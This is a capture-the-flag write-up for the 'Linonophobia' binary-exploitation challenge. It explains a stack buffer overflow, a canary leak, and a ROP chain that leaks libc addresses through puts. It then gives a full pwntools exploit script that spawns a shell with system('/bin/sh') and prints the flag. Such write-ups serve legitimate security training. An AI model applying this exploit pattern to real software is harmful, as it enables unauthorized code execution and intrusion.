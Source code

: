 # Linonophobia

## Task

[Linonophobia](https://imaginaryctf.org/r/2021-linonophobia)

## Solution

We open the binary and immediatly see two vulnerabilities: 
The first one is just a bufferoverflow (We read up to 512
bytes but the buffer is just 264 bytes or something)
The second one turns out to be a fake vulnerability, because
we do a printf with user input data, but actually we overwrite
the printf with puts before we do anything. So we just have the
buffer overflow to work with.

But first we need to leak the canary. We can do that by just 
filling the buffer until the end, then the canary will be printed
because there's no null terminator anymore.

Next we need to leak the libc to get something useful,
so I ropped `puts(&puts)` and `puts(&read)` to get the libc I need
and then did a return to main to send a second payload in which
I know the base address of libc, which means I can just do a
system("bin/sh") with rop.

Pretty classic I'd say.


```python
io = start()

io.recvline()
payload = b"A"*265
io.send(payload)
with_canary = b"\x00"+io.recvline()[-8:]
canary = with_canary[:-1]
log.info("Got canary: %x", u64(canary))

payload = payload[:-1]
payload += canary
payload += p64(0x0) # rbp
payload += p64(0x400873) # pop rdi
payload += p64(0x600fe8) # puts at got
payload += p64(0x4005c0) # puts()  

payload += p64(0x400873) # pop rdi
payload += p64(0x601028) # read at got.plt
payload += p64(0x4005c0) # puts() 

payload += p64(0x4006b7) # main

io.sendline(payload)


puts = u64(io.recvline()[:-1].ljust(8,b'\x00'))
read = u64(io.recvline()[:-1].ljust(8,b'\x00'))

libc_base = puts-0x875a0
system = libc_base+0x55410
binsh = libc_base+0x1b75aa

log.info("puts @ %x, read @ %x", puts, read)

payload = b"A"*264
payload += canary
payload += p64(0)
payload += p64(0x400873) # pop rdi
payload += p64(binsh) # puts at got
payload += p64(system) # puts()  # could also be at 406030
io.sendline(payload)

io.interactive()
```

I had to adjust some offsets at one point because they deployed
a new version, but the general idea was the same, they just changed
something with the got/plt I think.

And now just cat the flag.txt:

`ictf{str1ngs_4r3_null_t3rm1n4t3d!_b421ba9f}`


